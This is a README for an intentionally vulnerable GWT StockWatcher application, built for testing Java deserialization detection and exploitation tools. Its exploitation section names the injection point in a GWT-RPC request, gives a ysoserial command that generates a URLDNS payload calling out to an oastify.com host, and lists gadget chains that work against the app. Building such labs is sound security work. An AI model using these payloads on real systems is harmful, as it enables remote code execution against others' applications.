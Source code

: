 # Vulnerable GWT Web Application

This is a version of [the StockWatcher example application described in the GWT getting-started guide](https://www.gwtproject.org/doc/latest/tutorial/gettingstarted.html) that has been modified to use the GWT "enhanced classes" feature, making it vulnerable to a Java deserialization attack. It should only be used for testing detection and exploitation tooling. Enhanced classes are commonly used in real-world GWT-based applications, but until the publication of this example, there were no easily-located open source web applications that security professionals could use to validate their tooling and procedures.

[Exploiting GWT-based applications is discussed in the Bishop Fox blog post "GWT: An Eight-Year-Old Unpatched Java Deserialization Vulnerability"](https://bishopfox.com/blog).

# Running the web application

To run the web application, you'll need a Linux system with the following tools:

* The full version of the OpenJDK 11 JRE, *not* the headless version - e.g. on Debian-based distributions, install the `openjdk-11-jre` package
* `ant` (install using your distribution's package manager)
* [Version 2.10.0 of the GWT SDK](https://www.gwtproject.org/download.html)

## Quick start

The application requires a number of JAR files that are too large to include directly in GitHub source control, so the easiest way to get started is to download the latest package from [the releases page](releases), and unpack it.

Once you've unpacked the release, edit this line in `build.xml` to replace `/home/user/GWT/gwt-2.10.0` with your GWT SDK directory:

<property name="gwt.sdk" location="/home/user/GWT/gwt-2.10.0" />

From within the source code directory, run the following commands:

```
ant build
ant devmode
```

This will launch the vulnerable web application and make it accessible at `http://127.0.0.1:8888/StockWatcher.html`.

Note that if you are forwarding traffic to the local service to make it accessible remotely, you should also forward port 9876 in addition to 8888.

## Running directly from the code in this repo

If you want to clone this repo and run the application without downloading a release, you'll need to download and add the following third-party JAR files into the `lib` directory after cloning it:

* [aspectjweaver-1.9.2.jar](https://repo1.maven.org/maven2/org/aspectj/aspectjweaver/1.9.2/)
* [commons-collections-3.2.2.jar](https://repo1.maven.org/maven2/commons-collections/commons-collections/3.2.2/)
* [javax.persistence.jar](http://www.java2s.com/Code/Jar/j/Downloadjavaxpersistencejar.htm)
* [jboss-as-connector-7.1.3.final.jar](https://mvnrepository.com/artifact/org.jboss.as/jboss-as-connector/7.1.3.Final)
* [jdo-api-3.2.1.jar](https://mvnrepository.com/artifact/javax.jdo/jdo-api/3.2.1)
* [jpa-annotations-source.jar](https://code.google.com/archive/p/wmc-toools/source/default/source?page=15)
* [junit-vintage-engine-5.10.0.jar](https://mvnrepository.com/artifact/org.junit.vintage/junit-vintage-engine/5.10.0)
* [jython-standalone-2.7.3.jar](https://www.jython.org/download.html)

You'll also need to copy the following GWT JAR files from your GWT directory (e.g. `gwt-2.10.0/`) to the `lib` directory for this vulnerable application:

* `gwt-dev.jar`
* `gwt-servlet.jar`
* `gwt-user.jar`
* `validation-api-1.0.0.GA.jar`
* `validation-api-1.0.0.GA-sources.jar`

After copying all of those JAR files, perform the other steps from the quick start section, above.

# Exploiting the web application

Using a web browser configured to connect through an intercepting proxy (such as Burp Suite), load the URL `http://127.0.0.1:8888/StockWatcher.html`.

The page will initially display a "compiling" message. Wait until it displays this basic form:

<img src="Vulnerable_Web_App-01.PNG" width="466" height="208" alt="[ The StockWatcher web app displaying a field to add a stock symbol ]">

Enter a short string in the field, such as `BFOX`, then click the *Add* button. The page should begin displaying random updates for the simulated stock symbol:

<img src="Vulnerable_Web_App-02.PNG" width="474" height="271" alt="[ The StockWatcher web app displaying simulated price data for the BFOX symbol ]">

In your intercepting proxy history, note that your browser is now repeatedly sending `POST` requests to `http://127.0.0.1:8888/stockwatcher/checkCustomClass1`, similar to the following:

```
POST /stockwatcher/checkCustomClass1 HTTP/1.1
Host: 127.0.0.1:8888
...omitted for brevity...

7|0|10|http://127.0.0.1:8888/stockwatcher/|259823D3B8B1029302496D0C7E009509|com.google.gwt.sample.stockwatcher.client.CheckCustomClassService|checkCustomClass1|com.google.gwt.sample.stockwatcher.client.CustomClass1/1972642674|rO0ABXcEAAAAAA==|com.google.gwt.sample.stockwatcher.client.CustomClass2/69504871|java.sql.Date/730999118|string1 value: 12345|string2 value: 98765|1|2|3|4|1|5|5|6|7|6|0|0|8|P___i17vzAA|0|9|10|
```

The Base64-encoded binary data `rO0ABXcEAAAAAA==` is a vulnerable injection point in the request. To exploit the web application, you'll need to generate a replacement payload. For example, to generate a `URLDNS` payload using [Bishop Fox's customized version of ysoserial](https://github.com/BishopFox/ysoserial-bf), you could execute the following command:

```
$ java -jar target/ysoserial-0.0.6-SNAPSHOT-all.jar \
  --gwt bishopfox \
  URLDNS "https://dvc5ng8w4odw47m0a8qk45hdv41vpndc.oastify.com/URLDNS" \
  | base64 -w0 | sed 's/+/\$/g' | sed 's./._.g' > gwt_urldns.bin.gwt_b64
```

Send a modified version of the request that replaces `rO0ABXcEAAAAAA==` with your generated payload, and the vulnerable application should deserialize and trigger it. In addition to whatever action the payload causes, the response should also include a `NoSuchFieldException` related to the field name if the value was deserialized, e.g. using the `bishopfox` name from the example above:

```
HTTP/1.1 200 OK
Connection: close
...omitted for brevity...

//EX[2,1,["com.google.gwt.user.client.rpc.IncompatibleRemoteServiceException/3936916533","java.lang.NoSuchFieldException: bishopfox"],0,7]
```

If you used the prebuilt release of the vulnerable web application, or manually added all of the JARs referenced above to a custom build, you should (at a minimum) be able to use the following payloads against the web app:

* AspectJWeaver
* Jython2
* Jython3

At the time of this writing, the mainline version of `ysoserial` did not support GWT-formatted output, so please be sure to use the custom fork.
